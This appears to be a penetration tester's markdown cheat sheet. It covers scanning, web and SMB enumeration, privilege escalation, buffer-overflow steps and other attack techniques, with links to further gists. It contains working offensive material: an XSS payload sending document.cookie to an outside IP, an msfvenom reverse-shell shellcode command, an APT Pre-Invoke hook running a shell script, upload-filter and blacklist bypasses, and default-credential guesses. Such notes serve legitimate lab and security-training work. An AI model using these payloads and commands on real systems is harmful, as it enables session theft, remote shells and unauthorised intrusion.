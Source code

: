 # Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Port Scan
- `nmap -sC -sV -oA <name> <ip>`
- `nmap -p- -sV <ip> > all-tcp`
- `nmap -sU <ip> > comm-udp`
- `nmap --script vuln <ip>`
- `nc -zv xx.xx.xx.xx 1-100 2>&1 | grep -v "refused"`

# HTTP/HTTPS 80/443
- `gobuster -u http://xxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html`
  - remember to recursively scan if needed
- google its software version and find its exploit
- login page => google its default cred
- play around and see whether there is any upload/execute vuln
- check its ssl cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# DNS
https://gist.github.com/feng-zhe/fc78b1f01b6ce6c26dd7a6ebc909953d

## SQLi
https://gist.github.com/feng-zhe/e75d0c2c918c9edf50b27eb4d489b15f

## PHP Wrapper
https://gist.github.com/feng-zhe/e6bc151aa96132b3cc4e03b5a858e80c

## PHP cmd and file upload script
https://gist.github.com/feng-zhe/68efdd66fd20fd4626fe82e3f92d6e2b

# SMB
https://gist.github.com/feng-zhe/3f7c802df4b47bc9d70eeb8bdbd190e8

# SNMP udp/161
- `snmpwalk -c public -v1 <target>`
- `snmp-check -w -t 30 <target>`

# Priv Esc
## Linux
- go to /var/www/, read config => get db cred => extract juicy info
- password reuse
- find SUID files => `find / -perm -4000 2>/dev/null`
- find all files in /home => `find /home -type f`
- LinEnum.sh, linux-exploit-suggester.sh, linuxprivchecker.py
## Windows
[ps scripts](https://gist.github.com/feng-zhe/b47e251d9cc5d9bdf6504de182b1b2e0)
[manually enum](https://gist.github.com/feng-zhe/7913c7cc5b11f23cf99db058bb9edb00)
[runas attack](https://gist.github.com/feng-zhe/0e6d4dfd75d248d6450658618458d579)
[service replace](https://gist.github.com/feng-zhe/fc00f38428bb8974ed8ced67879ed374)

# Manually Test User Pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# File 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) `impacket-smbserver share <shared path>`
  - (windows) `net use z: \\<kali's ip>\share`
  - (windows) `copy <file\ z:`

# gdb (with peda)
- `r < <(python exp.py)`
  - (or 'set args' if take parameters)
- `r < input.txt`
- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
- `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'`
- `p system` => address of function system
- `info functions` => list all functions
- `vmmap` => find which part is executable.

# binary exploit steps (with immunity dbg)
1. find EIP overflow offset
    1. `msf-pattern_create -l 300`
    1. `msf-pattern_offset -q <value>`
1. test bad chars
1. `!mona modules`
    1. see modules and their security flags. we also need to make sure the module address doesn't contain bad chars.
1. click the "e" button to see the list of executable modules. Double click on one to view its assembly code.
1. find "jmp esp" commands
    1. right click -> search for -> command, then enter "jmp esp"(or others).
    1. right click -> search for -> sequence of commands, then enter "push esp", new line, "ret".
    1. if no DEP is enabled, we can search beyond the .text section where the "search for" commands focus. We can search other sections.
        1. `msf-nasm_shell` and enter "jmp esp", it says "FFE4"
        2. `!mona find -s "\xff\xe4" -m xxx.dll
        3. you can click the button "->|" (except the | are dots)
1. place shellcode
    1. `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`

# Oracle DB exploit tool
- odat.py
  - `--sysdba` to get a 
  
# XSS
```
<script>
document.write('<img src="http://10.10.14.19/xxxx?cookie=' + document.cookie + '" />')
</script>
```

# bypass upload file filter
- jpg.php, php.jpg, php5, php6, php7
- use system filename length limits to truncate the .png part from .php.png

# escaping black list
- /usr/bin/find replaced by /usr/bin/fin? or /usr/bin/\f\i\n\d

# APT pre-invoke attack
If apt update is run, the scripts in /etc/apt/apt.conf.d/ also gets run.
So, if there is a job running apt update, we can put a file with following content under /etc/apt/apt.conf.d/:
`APT::Update::Pre-Invoke {"/bin/bash /tmp/myshell.sh"}`

# Powershell
https://gist.github.com/feng-zhe/5429965db99d9647ffc60bb571c6f46e

# Escape rbash
https://gist.github.com/feng-zhe/ffc2063f138a4321c3cb45c9fdab5e46

# Resources
- [omniscient methods](http://www.0daysecurity.com/penetration-testing/enumeration.html)
- [bypass file upload filter](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
